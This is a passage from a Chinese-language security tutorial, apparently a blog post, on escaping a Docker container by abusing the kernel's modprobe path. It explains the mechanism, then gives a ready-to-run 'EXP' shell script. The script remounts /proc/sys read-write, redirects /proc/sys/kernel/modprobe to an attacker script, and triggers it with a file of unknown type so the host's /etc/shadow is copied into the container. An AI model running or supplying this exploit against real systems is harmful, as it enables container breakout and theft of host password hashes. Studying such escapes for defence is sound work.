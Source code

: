 也就是说执行一个未知的文件类型，内核也会去调用这个指定的程序

#### 利用原理

清楚了/proc/sys/kernel/modprobe的作用之后利用的原理就比较清晰了，替换原有的modprobe_path为恶意代码地址，执行一个未知文件类型，内核就会去调用恶意文件，执行恶意代码。
在docker中默认/proc/sys/kernel/modprobe是不可写入的，需要对/proc/sys以rw方式remount，才可以修改文件内容

![](media/16423261310936/16449139045062.jpg)


#### EXP

```shell
mount -o rw,remount /proc/sys
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/bash' > /tmp/modp.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/modp.sh
chmod +x /tmp/modp.sh
echo $host_path/tmp/modp.sh > /proc/sys/kernel/modprobe
echo -ne '\xff\xff\xff\xff' > exp
chmod +x exp
./exp
sleep 2
cat /shadow
```
执行效果如下：
![](media/16423261310936/16448850626280.jpg)
